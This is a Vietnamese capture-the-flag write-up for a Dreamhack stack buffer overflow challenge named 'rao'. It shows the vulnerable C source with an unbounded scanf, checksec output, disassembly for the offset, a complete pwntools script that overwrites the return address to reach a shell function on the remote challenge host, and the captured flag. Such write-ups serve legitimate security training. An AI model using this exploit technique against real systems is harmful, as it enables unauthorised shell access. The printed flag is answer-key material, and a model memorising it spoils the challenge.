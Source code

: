 **1. Tìm lỗi**

Ta có file source như sau:

```
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

Chương trình cho nhập vào biến `buf` vào kết thúc ngay sau đó. Ta thấy ở đây không giới hạn ký tự nhập nên có lỗi `bof`

Ngoài ra còn có hàm `get_shell` có thể giúp mình tạo shell.

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ta có Stack đang no canary found nên chỉ cần nhập nhập tràn đến `ret` rồi chèn địa chỉ hàm `get_shell` vào là xong.

**3. Khai thác**

```
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
```

Ta thấy biến `buf` cách rbp 0x30 byte nên ghi 0x30 + 0x8 byte rác sẽ đến được ret.

```
payload = b'a'*(0x30 + 0x8)
payload += p64(exe.sym['get_shell'])
r.sendlineafter(b'Input: ', payload)
```

Đặt breakpoint xem đã về hàm `get_shell` chưa:

![check.png](photo/check.png)

Chương trình đã trả về hàm mình mong muốn. ta có script như sau:

```
from pwn import *

exe = ELF('rao', checksec = False)
#r = process(exe.path)
r = remote(b'host3.dreamhack.games', 23406)

#input()
payload = b'a'*(0x30 + 0x8)
payload += p64(exe.sym['get_shell'])
r.sendlineafter(b'Input: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}`